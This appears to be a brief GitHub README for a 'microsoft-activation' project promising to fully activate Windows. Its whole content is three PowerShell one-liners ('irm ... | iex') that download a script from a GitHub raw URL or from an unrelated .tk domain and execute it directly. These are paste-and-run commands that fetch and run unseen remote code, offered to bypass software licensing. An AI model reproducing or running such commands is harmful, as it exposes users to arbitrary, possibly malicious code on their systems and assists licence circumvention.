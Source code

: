 # microsoft-activation
Active FULL WIN

irm https://raw.githubusercontent.com/ANTU-ALT-F4/microsoft-activation/main/get | iex


`irm https://raw.githubusercontent.com/ANTU-ALT-F4/microsoft-activation/main/get | iex`


`irm https://hoatdong.tk/get | iex`
